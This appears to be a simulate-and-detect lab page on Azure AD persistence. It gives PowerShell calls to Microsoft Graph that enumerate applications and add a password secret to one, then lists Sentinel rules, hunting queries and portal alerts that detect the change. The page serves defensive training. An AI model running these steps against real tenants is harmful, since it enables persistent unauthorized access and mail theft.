 # Add Credentials to Application

Once a threat actor identifies an application of interest to authenticate with, credentials can be added to it. This allows the adversary to use custom credentials and maintain persistence.

Based on [Microsoft documentation](https://docs.microsoft.com/en-us/azure/active-directory/develop/v2-oauth2-client-creds-grant-flow), like a user, during the authentication flows we're focused on, an application must present credentials. 

This authentication consists of two elements:
* An Application ID, sometimes referred to as a Client ID. A GUID that uniquely identifies the app's registration in your Active Directory tenant.
* A secret associated with the application ID. You can either generate a client secret string (similar to a password) or specify an X509 certificate (which uses its public key).

[An application object is the global representation of an application for use across all tenants, and the service principal is the local representation for use in a specific tenant](https://docs.microsoft.com/en-us/azure/active-directory/develop/app-objects-and-service-principals). A service principal must be created in each tenant where the application is used, enabling it to establish an identity for sign-in and/or access to resources being secured by the tenant.

## Current Status of Application (Credentials & Secrets)

We can check if our custom Azure AD application has any credentials added to it. 

1.	Browse to [Azure Portal](https://portal.azure.com/)
2.	Go to Azure AD > App Registrations > `MyApplication` > `Certificates & secrets`

![](../../resources/images/simulate_detect/persistence/addCredentialsToApplication/2021-05-19_01_app_secrets.png)

Before simulating a threat actor adding credentials to an application, we need to have a Microsoft Graph access token with permissions to add credentials to applications:

![](../../resources/images/simulate_detect/persistence/addCredentialsToApplication/2021-05-19_02_mgraph_access_token.png)

## Simulate & Detect
1.	[Enumerate existing applications](#enumerate-existing-azure-ad-applications) 
2.	[Add credentials to application](#add-credentials-to-application)
    * [Detect credentials added to an application](#detect-credentials-added-to-an-application)

## Preconditions
* Authorization
    * Identity solution: Azure AD
    * Access control model: Discretionary Access Control (DAC)
    * Service: Azure Microsoft Graph
    * Permission Type: Delegated
    * Permissions: Application.ReadWrite.All
* Endpoint: ADFS01
    * Even when this step would happen outside of the organization, we can use the same PowerShell session where we [got a Microsoft Graph access token](getAccessTokenSAMLBearerAssertionFlow.md) to go through the simulation steps.
    * Microsoft Graph Access Token
        * Use the output from the previous step as the variable `$MSGraphAccessToken` for the simulation steps. Make sure the access token is from the `Azure Active Directory PowerShell Application`. That application has the right permissions to execute all the simulation steps.

## Enumerate Existing Azure AD Applications

```PowerShell
$headers = @{"Authorization" = "Bearer $MSGraphAccessToken"}
$params = @{
    "Method"  = "Get"
    "Uri"     = https://graph.microsoft.com/v1.0/applications
    "Headers" = $headers
}
$applications = Invoke-RestMethod @params
$applications

$appObjectId = $applications.value[0].id
$appObjectId
```

![](../../resources/images/simulate_detect/persistence/addCredentialsToApplication/2021-05-19_03_app_object_id.png)

## Add Credentials to Application

### Adding Credentials (Password) to an Application

```PowerShell
$pwdCredentialName = 'SimuLand2021'
$headers = @{
    "Content-Type"  = "application/json"
    "Authorization" = "Bearer $MSGraphAccessToken"
}
$body = @{
    passwordCredential = @{ displayName = "$($pwdCredentialName)" }
}
$params = @{
    "Method"  = "Post"
    "Uri"     = https://graph.microsoft.com/v1.0/applications/$appObjectId/addPassword
    "Body"    = $body | ConvertTo-Json –Compress
    "Headers" = $headers
}
$credentials = Invoke-RestMethod @params
$credentials
$secret = $credentials.secretText
$secret
```
 
![](../../resources/images/simulate_detect/persistence/addCredentialsToApplication/2021-05-19_04_app_new_secret.png)

Browse to [Azure Portal](https://portal.azure.com/) and go to Azure AD > App Registrations > `MyApplication` > `Certificates & secrets` to verify the task.

![](../../resources/images/simulate_detect/persistence/addCredentialsToApplication/2021-05-19_05_app_new_secret.png)

## Detect Credentials Added to an Application

### Azure Sentinel Detection Rules

* [New access credential added to Application or Service Principal](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/AuditLogs/NewAppOrServicePrincipalCredential.yaml)
* [First access credential added to Application or Service Principal where no credential was present](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/AuditLogs/FirstAppOrServicePrincipalCredential.yaml)

### Microsoft 365 Hunting Queries

* [Credentials were added to an Azure AD application after 'Admin Consent' permissions granted [Nobelium]](https://github.com/microsoft/Microsoft-365-Defender-Hunting-Queries/blob/773ebb498e0aa897678be98c34ffa56359bf29d9/Persistence/CredentialsAddAfterAdminConsentedToApp%5BNobelium%5D.md)

### Azure AD Workbook: `Sensitive Operations Report`
1.	Browse to [Azure Portal](https://portal.azure.com/)
2.	Azure AD > `Workbooks` > `Sensitive Operations Report`

![](../../resources/images/simulate_detect/persistence/addCredentialsToApplication/2021-05-19_06_workbook.png)

### Microsoft Cloud App Security
1.	Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/).
2.	Go to `More Resources` and click on `Microsoft Cloud App Security`.
3.	`Alerts`
 
![](../../resources/images/simulate_detect/persistence/addCredentialsToApplication/2021-05-19_07_mcas_alert.png)

![](../../resources/images/simulate_detect/persistence/addCredentialsToApplication/2021-05-19_08_mcas_alert.png)

## Output

Use the variable `$secret` that contains the credentials object to authenticate to the compromised application. For example, if the application has permissions to read mail, you can authenticate to the application and use it to do so.

* [Mail access with delegated permissions](../collection/mailAccessDelegatedPermissions.md)

# References
* [OAuth 2.0 client credentials flow on the Microsoft identity platform | Microsoft Docs](https://docs.microsoft.com/en-us/azure/active-directory/develop/v2-oauth2-client-creds-grant-flow)
* [Use an app identity to access resources - Azure Stack Hub | Microsoft Docs](https://docs.microsoft.com/en-us/azure-stack/operator/azure-stack-create-service-principals?view=azs-2008&tabs=az1%2Caz2&pivots=state-disconnected)
